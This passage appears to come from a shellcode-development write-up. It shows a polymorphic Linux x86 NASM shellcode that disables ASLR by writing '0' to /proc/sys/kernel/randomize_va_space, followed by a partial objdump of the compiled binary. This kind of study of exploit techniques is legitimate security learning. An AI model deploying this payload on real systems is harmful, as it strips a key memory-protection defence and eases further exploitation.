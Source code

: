 #### What our Shellcode Looks like Now
```nasm
; Filename: offASLR.nasm
; Author:   boku
; Purpose:  Polymorphic version of Jean Pascal Pereira's
;  Linux x86 ASLR deactivation - 83 bytes
; Original: http://shell-storm.org/shellcode/files/shellcode-813.php
global _start
section .text:

_start:
xor    eax,eax
push   eax
push   0x65636170
push   0x735f6176
push   0x5f657a69
push   0x6d6f646e
push   0x61722f6c
push   0x656e7265
push   0x6b2f7379
push   0x732f636f
push   0x72702f2f
mov    ebx,esp
mov    al,0x8
;int    0x80
call syscallInt

mov    ebx,eax
push   0x30
mov    ecx,esp
xor    edx,edx
inc    edx
mov    al,0x4
call syscallInt

mov    al,0x6
call syscallInt

syscallInt:
int 0x80
ret
```
+ After compiling and testing the shellcode, it still worked. 
+ Although there was one flaw. It added a bunch of `0x00` bytes to our shellcode.  

#### Objectdump of the Shellcode
```console
root# objdump -D offASLR.poly5

offASLR.poly5:     file format elf32-i386


Disassembly of section .text::

08048054 <_start>:
 8048054:       31 c0                   xor    %eax,%eax
 8048056:       50                      push   %eax
 8048057:       68 70 61 63 65          push   $0x65636170
 804805c:       68 76 61 5f 73          push   $0x735f6176
 8048061:       68 69 7a 65 5f          push   $0x5f657a69
 8048066:       68 6e 64 6f 6d          push   $0x6d6f646e
 804806b:       68 6c 2f 72 61          push   $0x61722f6c
 8048070:       68 65 72 6e 65          push   $0x656e7265
 8048075:       68 79 73 2f 6b          push   $0x6b2f7379
```